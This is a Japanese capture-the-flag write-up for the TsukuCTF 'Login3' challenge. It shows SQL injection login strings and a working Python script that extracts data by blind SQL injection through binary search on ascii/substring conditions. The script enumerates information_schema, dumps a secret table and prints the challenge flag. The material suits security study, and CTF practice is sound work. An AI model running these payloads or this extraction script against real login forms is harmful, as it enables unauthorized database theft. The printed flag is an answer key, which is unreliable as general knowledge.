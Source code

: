 ```yaml
---
title: Login3
description: Blind SQL injection
author: rikuta0811_dash
genre: Web
solver: 9
point: 472
---
```


# Login 3

> 筑紫くんは、これなら情報が流出するはずがないと自信満々です。果たして...
> 
> https://tsukuctf.sechack365.com/problems/login3
>
> ※ この問題では/problems/login3以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3がセットでSQL injectionの問題になっています。
Login3では、Blind SQL injection というテクニックが要求されます。

Login 1, 2と同様に、Usernameを ``` ' or 1=1 ; -- ``` としてログインすると、ログインには成功しますが、ユーザー名等は表示されません。したがって、SQL injectionに対して脆弱ではあるものの、injectionしたSQL文の結果を確認することができません。
ここで、Usernameを ``` ' or 1=2 ; -- ```とすると、ログインできませんでしたと表示されます。ということは、```1=1```や```1=2```の部分にbool値をとる式を与えれば、その結果は取得できるということです。これを積み重ねてDB内の情報を抜く手法はBlind SQL injectionと呼ばれます。

information_schemaからの情報取得等の実行したいqueryに対して、「queryの実行結果のi文字目はasciiコードでxより大きいか?」というbool値をとるqueryを送信し、そのbool値を見ることで、2分探索でquery結果を取得していきます。流石に手動で入力するのは面倒くさいので、コードを書くことにします。

```python:blind.py
def _execAnyQuery_core(query, pos, mid):
    url = "https://tsukuctf.sechack365.com/problems/login3/login.php"
    
    #queryの pos文字目がasciiコードでmidより大きければtrue
    params={
        "name":"' or ascii(substring(({0}),{1},1))>={2} ; -- ".format(query,pos,mid),
        "password":"a"
    }
    page = requests.post(url, data=params)

    return "ようこそ" in page.text

def _execAnyQuery(query, pos):
    """
    2分探索でqueryの実行結果のpos文字目を取得する。
    """
    low = 0
    high = 256
    while high-low>1:
        mid = (high+low)//2
        if _execAnyQuery_core(query, pos, mid):
            low = mid
        else:
            high = mid
    return low
        
def execAnyQuery(query):
    i = 1
    while True:
        char = int(_execAnyQuery(query, i))
        if char==0:
            return
        print(chr(char), end="")
        i+=1
        
execAnyQuery("select version()") 
# >> 8.0.26
```

あとは、login2 と同様にテーブルを取得していきます。

```python:blind.py
for i in range(100):
    execAnyQuery("select distinct table_name from information_schema.columns limit 1 offset {0}".format(i))
    print()
# urtla_secret_tsukushiというtableがあることがわかる。

for i in range(10):
    execAnyQuery("select distinct column_name from information_schema.columns where table_name = 'urtla_secret_tsukushi' limit 1 offset {0}".format(i))
    print()
 
for i in range(33):
    execAnyQuery("select secret from urtla_secret_tsukushi limit 1 offset {0}".format(i))
# urtla_secret_tsukushiテーブルがidとsecretのカラムを持つことがわかる。
    
for i in range(33):
    execAnyQuery("select secret from urtla_secret_tsukushi limit 1 offset {0}".format(i))
#フラグが表示される。
```

フラグは

```txt
TsukuCTF{U_Are_Geni0us_T$UKUSH1}
```